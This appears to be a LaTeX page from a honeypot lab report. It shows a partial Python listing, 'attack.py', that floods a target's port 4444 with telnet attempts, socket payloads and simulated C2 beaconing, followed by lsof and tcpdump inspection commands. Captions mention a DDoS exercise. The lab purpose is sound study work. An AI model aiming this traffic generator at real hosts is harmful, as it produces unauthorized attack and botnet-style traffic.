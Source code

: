 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=python, caption={Attack Execution Code (\texttt{attack.py})}, label={lst:attack}]
def telnet_attempt(ip, port):
    try:
        subprocess.run(
            ["telnet", ip, str(port)],
            input=b"ping_botnet\n",
            timeout=2,
            stdout=subprocess.DEVNULL,
            stderr=subprocess.DEVNULL
        )
        print(f"[+] telnet connection attempt to {ip}:{port}")
    except Exception as e:
        print(f"[-] telnet to {ip}:{port} failed (expected): {e}")

def send_attack_payload(ip, port, payload):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(2)
        s.connect((ip, port))
        s.send(payload)
        print(f"[+] Sent C2-style payload to {ip}:{port}: {payload[:30]}...")
        s.close()
    except Exception as e:
        print(f"[-] Failed to send attack payload to {ip}:{port}: {e}")

def simulate_beaconing(ip, port, interval=5, count=5):
    print(f"[+] Simulating C2 beaconing to {ip}:{port}")
    for i in range(count):
        payload = b"heartbeat=alive&bot_id=bot" + str(i).encode()
        send_attack_payload(ip, port, payload)
        time.sleep(interval)

def main():
    print("[*] Launching all attack types to port 4444 only\n")
    for _ in range(5):
        payload = choice(ATTACK_PAYLOADS)
        connect_tcp(TARGET_IP, ATTACK_PORT)
        connect_udp(TARGET_IP, ATTACK_PORT)
        scapy_tcp_syn(TARGET_IP, ATTACK_PORT)
        scapy_udp(TARGET_IP, ATTACK_PORT)
        curl_http(TARGET_IP, ATTACK_PORT, payload)
        telnet_attempt(TARGET_IP, ATTACK_PORT)
        send_attack_payload(TARGET_IP, ATTACK_PORT, payload)
        time.sleep(1)

    simulate_beaconing(TARGET_IP, ATTACK_PORT)

    print("\n[+] All attacks sent to port 4444. On the honeypot, run:")
    print("    sudo lsof -i TCP:4444 -n -P | grep ESTABLISHED")
    print("    sudo tcpdump -nnX port 4444")

if __name__ == "__main__":
    main()

\end{lstlisting}
\begin{figure}[h!]
    \centering
    \texttt{[image: attack\_execution.png]}
    \caption{Executing the double attack for Ddos}
\end{figure}

\begin{figure}[h!]
    \centering
    \texttt{[image: lsofandtcpdump.png]}
    \caption{When victim runs network inspection commands \texttt{lsof} on the right and \texttt{tcpdump} on the left}
\end{figure}
\clearpage
\end{document}
